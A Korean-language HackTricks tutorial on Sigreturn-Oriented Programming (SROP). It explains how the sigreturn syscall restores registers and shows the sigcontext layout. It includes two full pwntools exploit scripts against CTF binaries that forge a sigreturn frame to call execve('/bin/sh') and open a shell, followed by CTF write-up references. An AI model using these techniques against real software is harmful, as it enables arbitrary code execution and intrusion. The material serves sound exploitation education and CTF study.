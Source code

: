 # SROP - Sigreturn-Oriented Programming

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고되길 원하거나** **HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

**`Sigreturn`**은 주로 **시그널 핸들러**가 실행을 완료한 후 정리하는 데 사용되는 특수한 **시스템 호출**입니다. 시그널은 운영 체제가 프로그램에 보내는 중단으로, 일반적으로 어떤 예외 상황이 발생했음을 나타냅니다. 프로그램이 시그널을 수신하면 현재 작업을 일시 중지하여 **시그널 핸들러**로 시그널을 처리하는 특수 함수로 이동합니다.

시그널 핸들러가 완료되면 프로그램은 아무 일도 일어나지 않은 것처럼 **이전 상태로 복귀해야** 합니다. 이때 **`sigreturn`**이 필요합니다. 이는 프로그램이 **시그널 핸들러에서 반환**하고 시그널 핸들러에서 사용된 **스택 프레임**(함수 호출 및 로컬 변수를 저장하는 메모리 섹션)을 정리하여 프로그램의 상태를 복원하는 데 도움을 줍니다.

흥미로운 부분은 **`sigreturn`**이 프로그램의 상태를 복원하는 방법입니다: **CPU의 모든 레지스터 값을 스택에 저장**합니다. 시그널이 더 이상 차단되지 않으면 **`sigreturn`이 이러한 값을 스택에서 팝**하여 CPU의 레지스터를 효과적으로 시그널 처리 전의 상태로 재설정합니다. 이는 스택의 현재 최상위를 가리키는 스택 포인터 레지스터(RSP)를 포함합니다.

{% hint style="danger" %}
ROP 체인에서 **`sigreturn`** 시스템 호출을 수행하고 **레지스터 값**을 **스택**에 로드하면 모든 레지스터 값을 **제어**할 수 있으며 따라서 예를 들어 `/bin/sh`를 사용하여 `execve` 시스템 호출을 호출할 수 있습니다.
{% endhint %}

이는 다른 Ret2syscall을 호출할 때 매개변수를 제어하기가 훨씬 쉬운 **Ret2syscall 유형**일 것임을 유의하십시오:

{% content-ref url="rop-syscall-execv/" %}
[rop-syscall-execv](rop-syscall-execv/)
{% endcontent-ref %}

호기심이 있다면 나중에 값을 복구하기 위해 스택에 저장된 **sigcontext 구조**를 확인할 수 있습니다(여기서 다이어그램 참조: [**여기**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
더 나은 설명을 위해 여기를 확인하세요:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## 예시

[**여기에서 예시를 찾을 수 있습니다**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) 여기서 signeturn 호출이 ROP를 통해 구성되었습니다 (rxa에 값 `0xf`를 넣음). 그러나 이겪은 거기서의 최종 exploit입니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
[여기에서 exploit을 확인하세요](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) 바이너리가 이미 `sigreturn`을 호출하고 있기 때문에 **ROP**로 구축할 필요가 없습니다:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## 다른 예시 및 참고 자료

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* **스택에 쓰기**를 허용하고 **`sigreturn`** 시스템 호출을 수행하는 어셈블리 바이너리입니다. **sigreturn** 구조를 통해 **`ret2syscall`**을 스택에 쓰고 이를 통해 바이너리 메모리 내에 있는 플래그를 읽을 수 있습니다.
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* **스택에 쓰기**를 허용하고 **`sigreturn`** 시스템 호출을 수행하는 어셈블리 바이너리입니다. **sigreturn** 구조를 통해 **`ret2syscall`**을 스택에 쓸 수 있습니다(바이너리에는 `/bin/sh` 문자열이 포함되어 있음).
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64비트, relro 없음, 캐너리 없음, nx, pie 없음. `gets` 함수를 남용하는 간단한 버퍼 오버플로우로 **`ret2syscall`**을 수행하는 가젯이 부족합니다. ROP 체인은 다시 gets를 호출하여 `.bss`에 `/bin/sh`를 쓰고, **`alarm`** 함수를 남용하여 eax를 `0xf`로 설정하여 **SROP**을 호출하고 셸을 실행합니다.
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64비트 어셈블리 프로그램, relro 없음, 캐너리 없음, nx, pie 없음. 흐름을 통해 스택에 쓰고 여러 레지스터를 제어하고 시스템 호출을 수행한 후 `exit`를 호출합니다. 선택된 시스템 호출은 `sigreturn`이며 레지스터를 설정하고 `eip`를 이전 시스템 호출 명령어를 호출하고 `memprotect`를 실행하여 바이너리 공간을 `rwx`로 설정하고 ESP를 바이너리 공간에 설정합니다. 프로그램은 ESP를 다시 읽어들이지만 이 경우 ESP는 다음 명령어를 가리키게 되므로 셸코드를 전달하여 다음 명령어로 쓰고 실행합니다.
